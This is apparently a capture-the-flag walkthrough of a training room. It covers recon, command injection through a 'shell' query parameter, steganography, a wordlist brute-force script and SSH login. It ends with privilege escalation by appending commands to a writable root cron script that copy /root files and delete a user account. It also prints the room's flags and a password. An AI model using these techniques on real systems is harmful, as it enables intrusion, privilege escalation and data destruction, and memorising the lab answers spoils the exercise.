


# PSYCHOBREAK CTF :
[Click Here to reach the THM room](https://tryhackme.com/room/psychobreak)
## Recon

Here we go. First, we start by reading the first question. We always start with reconnaissance. Tools : Nmap :
`nmap <Vuln Machine Ip Address> -Pn -A -v -O`
The options 
You see the nmap_results.txt ? I put the resulte there .


We foung the port 80is open, and Http is running there, Openning a new tab in our browser, We can access the page served there . let's have a look....
## Web


ALways, Check on the source page, There may be a comment .

Oups; */sadistRoom*  ? This look like a webpage,


Let click on the link bellow saying click here .
An alert popups come to us, Giving us this room key

Now, the page change aspect. Click one the button saying go to the Locker room. And enter the previous key into the input field


Looking below, there is a text that we need to decode, It's look a bit like a ROT* encryption. Let's figure it out. Using [DCODE Cipher Identifier](https://www.dcode.fr/.cipher-identifier). We find that the strings "Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv" lead to this "Grant_me_access_to_the_map_please", but was ATbash encrypted.

Which is the key to the next step.

We entered the key, then Got a access to this map, We already completed the Sadist Room, and THe Locker ROom, Now We are heading to Safe Heaven. Let click on the link !

In the source we can read this commented line :

Let's enumerate the Directory : That as the only idea that came to my mind when we viewed this 'Search through me... and find it...'
We found the */keeper* directory. Interesting...

Click on the link.

Then, we do some Reverse Search on the image,

..
We got the key.


Let's move to the next step... the abandonned Room

Enter the previous key to access the room

Room accessed, now click on the link bellow, on the source code, there is nothing interesting.
But, on the page where the last link lead to, there is a hint in the source code.

They say, there is a thing on this page that could help... There is notably two option here, a subdirectory, or a query parameter... guess What? Shell is a query parameter. That is passed to the OS. by passing `ls` to the shell parameter, like this at the end of the the current url like this : `?shell=ls`, we can list the directory.
Next step, trying to list the parent directory. `?shell=ls ..`

Read Carefully, you should notice that the second strings ressemble a lot to the url that we are currently looking at. So i tried to substitute it. without the parameter, obviously..

Good work, Well Doneeeee..... now, you should use wget to download all the content of the Directory.
## HELP ME

```bash
mkdir temp                                       
                                                                       
cd temp                 
                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# wget http://10.10.68.59/abandonedRoom/680e89809965ec41e64dc7e447f175ab/helpme.zip  
--2023-12-31 20:37:18--  http://10.10.68.59/abandonedRoom/680e89809965ec41e64dc7e447f175ab/helpme.zip
Connecting to 10.10.68.59:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 26484 (26K) [application/zip]
Saving to: ‘helpme.zip’

helpme.zip        100%[============>]  25.86K  92.0KB/s    in 0.3s    

2023-12-31 20:37:19 (92.0 KB/s) - ‘helpme.zip’ saved [26484/26484]

                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# wget http://10.10.68.59/abandonedRoom/680e89809965ec41e64dc7e447f175ab/you_made_it.txt
--2023-12-31 20:37:32--  http://10.10.68.59/abandonedRoom/680e89809965ec41e64dc7e447f175ab/you_made_it.txt
Connecting to 10.10.68.59:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 62 [text/plain]
Saving to: ‘you_made_it.txt’

you_made_it.txt   100%[============>]      62  --.-KB/s    in 0s      

2023-12-31 20:37:33 (8.49 MB/s) - ‘you_made_it.txt’ saved [62/62]

                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# cat you_made_it.txt 

You made it. Escaping from Laura is not easy, good job .... 
                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# file helpme.zip 
helpme.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# unzip helpme.zip 
Archive:  helpme.zip
  inflating: helpme.txt              
  inflating: Table.jpg               
                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# ls                 
helpme.txt  helpme.zip  Table.jpg  you_made_it.txt
                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# file Table.jpg  
Table.jpg: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# file helpme.txt 
helpme.txt: ASCII text
                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# file Table.jpg 
Table.jpg: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                       
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# mv Table.jpg table.zip

┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# unzip table.zip 
Archive:  table.zip
  inflating: Joseph_Oda.jpg          
  inflating: key.wav 

┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# file key.wav Joseph_Oda.jpg 
key.wav:        RIFF (little-endian) data, WAVE audio, Microsoft PCM, 8 bit, mono 8000 Hz
Joseph_Oda.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 350x490, components 3

```
Now, we can access the file. With, the content is the helpme.txt file, We can read that `Joseph` is the one that need help...

Lets submit the key.wav file to this awesome online tool to see if something good can came out .[MorseCode Decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

The content of the wav file is : `SHOWME`, which is also the key that we have to find from on the table. We will use it to access the file in the Joseph_Oda.jpg

```bash
┌──(root㉿NotAloneAnymore)-[/tmp/temp]
└─# steghide --extract -sf Joseph_Oda.jpg

Enter passphrase: SHOWME
wrote extracted data to "thankyou.txt".
```

After that, we will connect to the ftp service, to enumerate the content. we should download the content of the FTP.
- 

we have a program, After ajusting the executing permission, and founding out that the other file was a wordlist, We can craft a little python script to solve the prblem...

here is the code, available in script.py


```python
import os
import subprocess

with open("random.dic", "r") as file:
    for word in file.readlines():
        word = word.strip()
        subprocess.call(["./program", word])

```
Here the work is done, we can Pursue, in our terminal we need to run this script with python3. We get a serie of number that we will have to decode :
`55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33`
Again our older and best friend, [DCODE Cipher Identifier](https://www.dcode.fr/.cipher-identifier) to identifier the cipher of the strings. We find out that  it is Multi-Tap Phone (SMS).
After decoding, We find out that it's : *KIDMANSPASSWORDISSOSTRANGE*

Wich is the password for Kidman user. Kidman is the word in the *random.dic* that worked in our script.py.

Now Let's Login to SSH. Let's Capture the FLAGs...

```bash
┌──(edem㉿NotAloneAnymore)-[~]
└─$ ssh kidman@10.10.121.41       
The authenticity of host '10.10.121.41 (10.10.121.41)' can't be established.
ED25519 key fingerprint is SHA256:qoY32nnMdG9yk5zI+QyqHzXgNPBhVdbcfy/QUOwogfo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.121.41' (ED25519) to the list of known hosts.
kidman@10.10.121.41's password: 
Permission denied, please try again.
kidman@10.10.121.41's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

171 packages can be updated.
121 updates are security updates.


Last login: Fri Aug 14 22:28:13 2020 from 192.168.1.5
kidman@evilwithin:~$ dir
user.txt
kidman@evilwithin:~$ cat user.txt
4C72A4EF8E6FED69C72B4D58431C4254
```

Now, We need to priv-Esc to gain root access to read the root Flag...

after a bit of research, I looked at the /etc/crontab, to see whether there isn't a cronjob working behind with root privilege that We could probablly exploit. 

```bash
kidman@evilwithin:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

*/2 * * * * root python3 /var/.the_eye_of_ruvik.py
kidman@evilwithin:~$ ls -al /var/.the_eye_of_ruvik.py 
-rwxr-xrw- 1 root root 300 Aug 14  2020 /var/.the_eye_of_ruvik.py
kidman@evilwithin:~$ 
```

We now see that there is a python script that s running every 2 minute on the system. And fortunately, kidman user have write privilege on the file, even if root is the owner...

you can try to add a reverse Shell command to the already existing script. I will make it short and focused here.

```bash
echo 'subprocess.call("cat /root/* >> /tmp/flags.txt", shell=True)' >> /var/.the_eye_of_ruvik.py
echo 'subprocess.call("userdel ruvik -r", shell=True)' >> /var/.the_eye_of_ruvik.py
```
we should now have the root.txt flag in our tmp directory, Since this script is run with root privilege.

This was a good one... i hope you enjoyed it!

```bash
kidman@evilwithin:~$ cat /tmp/flags.txt 


 /\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\
|  From Sebastian :									|
|											|
|  You have one final task ... Help me to defeat ruvik !!!				|
|											|
 \/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/


BA33BDF5B8A3BFC431322F7D13F3361E
```
